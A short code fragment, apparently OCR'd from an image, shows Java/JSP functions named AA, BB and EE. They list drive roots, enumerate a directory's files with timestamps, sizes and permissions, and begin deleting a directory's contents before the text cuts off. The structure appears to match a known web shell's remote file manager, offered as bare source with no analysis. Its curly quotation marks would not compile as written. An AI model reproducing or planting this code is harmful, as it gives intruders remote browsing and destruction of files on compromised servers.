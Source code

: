 ```

void AA(StringBuffer sb) throws Exception {

File k = new File("");

File r[] = k.listRoots();

for (int i = 0; i < r.length; i++) {

sb.append(r[i].toString().substring(0, 2));

}

}

void BB(String s, StringBuffer sb) throws Exception {

File oF = new File(s), l[] = oF.listFiles();

String sT, sQ, sF = “”;

java.util.Date dt;

SimpleDateFormat fm = new SimpleDateFormat(“yyyy-MM-dd HH:mm:ss”);

for (int i = 0; i < l.length; i++) {

dt = new java.util.Date(l[i].lastModified());

sT = fm.format(dt);

sQ = l[i].canRead() ? “R” : “”;

sQ += l[i].canWrite() ? " W" : “”;

if (l[i].isDirectory()) {

sb.append(l[i].getName() + “/\t” + sT + “\t” + l[i].length()+ “\t” + sQ + “\n”);

} else {

sF+=l[i].getName() + “\t” + sT + “\t” + l[i].length() + “\t”+ sQ + “\n”;

}

}

sb.append(sF);

}

void EE(String s) throws Exception {

File f = new File(s);

if (f.isDirectory()) {

File x[] = f.listFiles();

for (int k = 0; k < x.length; k++) {

if (!x[k].delete()) {

```